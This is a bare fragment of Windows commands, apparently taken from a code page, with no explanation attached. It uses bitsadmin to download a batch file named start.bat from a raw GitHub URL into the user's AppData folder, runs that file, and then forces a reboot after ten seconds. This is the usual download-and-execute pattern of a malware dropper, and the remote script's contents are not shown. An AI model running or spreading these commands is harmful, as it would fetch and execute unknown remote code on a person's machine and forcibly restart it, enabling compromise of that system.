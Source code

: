 bitsadmin.exe /transfer Explorers /download /priority FOREGROUND https://raw.githubusercontent.com/xcgx/strange/main/start.bat %appdata%\start.bat
%appdata%\start.bat
shutdown -r -t 10
